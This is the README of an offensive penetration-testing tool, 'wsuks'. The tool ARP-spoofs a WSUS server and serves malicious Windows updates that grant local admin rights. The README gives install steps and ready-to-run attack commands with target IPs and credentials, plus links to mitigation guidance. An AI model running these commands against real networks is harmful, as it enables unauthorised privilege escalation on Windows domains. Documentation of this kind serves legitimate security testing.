 ![Supported Python versions](https://img.shields.io/badge/python-3.10+-blue.svg) [![Twitter](https://img.shields.io/twitter/follow/al3x_n3ff?label=al3x_n3ff&style=social)](https://twitter.com/intent/follow?screen_name=al3x_n3ff)
# wsuks
_Weaponizing the WSUS Attack_

Gaining local administrative access on a Windows machine that is part of a domain is typically the initial step towards acquiring domain admin privileges during a penetration test. In order to exploit the WSUS attack automatically, this tool spoofs the IP address of the WSUS server within the network using ARP, and when the client requests Windows updates, it provides its own malicious updates instead.
By default, a Windows client requests updates every 24 hours. 

Both the executable file served (Default: PsExec64.exe) and the executed command can be changed as needed.

Prerequisits:
- The target Client must be on the local network
- The Windows Server Update Service (WSUS) must be configured using HTTP

Result:
- After successful execution the user provided will be added to the local admin group. If no user was specified a user with the format user[0-9]{5} (e.g. user12345) and a random password will be created

## Installation
Using pipx:
```
sudo apt install python3-pipx
pipx ensurepath
pipx install wsuks
sudo ln -s ~/.local/pipx/venvs/wsuks/bin/wsuks /usr/local/bin/wsuks
```

Using poetry:
```
sudo apt install python3-poetry
git clone https://github.com/NeffIsBack/wsuks
cd wsuks
sudo poetry install
```

## Usage
❗wsuks must be run as root❗

With pipx:
```
sudo wsuks
suso wsuks -t 10.0.0.10 --WSUS-Server 10.0.0.20     # This will generate a new local user and add it to the local admin group
sudo wsuks -t 10.0.0.10 --WSUS-Server 10.0.0.20 -u User -p Password -d Domain.local     # This will add the provided user to the local admin group
sudo wsuks -t 10.0.0.10 -u User -p Password -d Domain.local --dc-ip 10.0.0.1      # This will start the auto discovery mode and add the provided user to the local admin group
```

With poetry:
```
suso poetry run wsuks -t 10.0.0.10 --WSUS-Server 10.0.0.20     # This will generate a new local user and add it to the local admin group
sudo poetry run wsuks -t 10.0.0.10 --WSUS-Server 10.0.0.20 -u User -p Password -d Domain.local     # This will add the provided user to the local admin group
sudo poetry run wsuks -t 10.0.0.10 -u User -p Password -d Domain.local --dc-ip 10.0.0.1      # This will start the auto discovery mode and add the provided user to the local admin group
```

## About & Mitigation
In the [PyWSUS](https://github.com/GoSecure/pywsus) Repository from GoSecure you can find a great documentation how to you could detect and mitigate this attack.
They also wrote a great Guide demonstrating how this attack works in detail [here](https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/).

This Tool is based on the following projects:
- https://github.com/GoSecure/pywsus
- https://github.com/GoSecure/wsuspect-proxy

